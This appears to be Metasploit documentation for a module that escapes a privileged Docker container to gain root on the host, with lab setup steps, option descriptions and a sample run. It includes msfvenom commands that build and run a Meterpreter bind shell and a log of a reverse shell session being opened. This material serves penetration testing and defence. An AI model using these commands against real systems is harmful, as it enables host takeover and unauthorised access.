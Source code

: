 ## Vulnerable Application

Docker Privileged Container Escape that obtains root on the host machine by abusing the Linux cgroup notification on rebase feature.

Both meterpreter shell and classic shell are supported. The exploit will copy a payload to a writable directory in the container and then escape the container and either search for the payload on the file system or copy it directly from the container and then execute it on the host. 

# Creating A Testing Environment

- Install Docker
- Create a privileged container (forwarding port 4444 in this example in order to use a bind shell from the host)
```bash
docker run -d -it --name test-vuln-container -p 4444:4444 --privileged ubuntu
```
- Obtain a shell on the container with metasploit. One possible option is:
```bash
# Create a bind shell using msfvenom
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf -o ./bind4444.bin
# Copy bind shell into container
docker cp ./bind4444.bin test-vuln-container:/bind4444.bin
# Execute bind shell in the container
docker exec -it test-vuln-container /bind4444.bin
```
- Connect to this bind shell in metasploit
```bash
use multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 127.0.0.1
set lport 4444
run
```

## Verification Steps

1. `use exploit/linux/local/docker_privileged_container_escape`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## ForceExploit

Force exploit even if the current session does not appear to be in a docker container, or the container does not appear vulnerable.

## ForcePayloadSearch

Force the exploit to search for the payload in the file system rather than copying out of the docker container. This avoids the need for a writable directory on the host system. Typically, the filesystem of the container will be located in the `/var/lib/docker/overlay2/` directory.

## WritableContainerDir

A directory where we can write files inside the container (default is /tmp). This is needed to drop the payload into the container.

## WritableHostDir

A directory where we can write files on the host (default is /tmp). This is needed to copy the payload from the container onto the host. Alternatively see ForcePayloadSearch

# Scenarios

## Container Escape starting with a meterpreter shell

```
msf exploit(multi/handler) > use exploit/linux/local/docker_privileged_container_escape
msf exploit(linux/local/lxc_privilege_escalation) > set session 1
session => 1
msf exploit(linux/local/lxc_privilege_escalation) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Writing payload executable to '/tmp/aLQdBKpMXLo'
[*] Executing script to exploit privileged container
[*] Sending stage (3012516 bytes) to 192.168.0.231
[*] Meterpreter session 4 opened (0.0.0.0:0 -> 192.168.0.231:4444) at 2020-07-19 14:50:51 +0100
```
